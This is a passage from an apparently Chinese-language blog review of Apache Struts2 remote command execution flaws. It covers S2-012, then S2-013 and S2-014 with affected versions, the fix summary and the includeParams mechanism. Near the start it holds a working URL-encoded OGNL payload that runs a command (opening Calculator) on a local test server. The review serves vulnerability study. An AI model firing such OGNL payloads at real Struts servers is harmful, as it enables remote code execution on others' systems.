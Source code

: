     http://localhost:8080/S2-012/user.action?name=%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
    
![](/images/articles/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/6.png)

### S2-013 | S2-014

> 官方链接：[https://struts.apache.org/docs/s2-013.html](https://struts.apache.org/docs/s2-013.html), [https://struts.apache.org/docs/s2-014.html](https://struts.apache.org/docs/s2-014.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.14 (Struts 2.3.14.1)
> 
> 修复摘要：在对标签进行请求参数操作时禁用 OGNL 表达式解析

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 `includeParams` 属性，其值可设置为 `none`，`get` 或 `all`，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

若设置了 `includeParams="get"` 或者 `includeParams="all"`，在获取对应类型参数时后端会对参数值进行 OGNL 表达式解析，因此可以插入任意 OGNL 表达式导致命令执行：
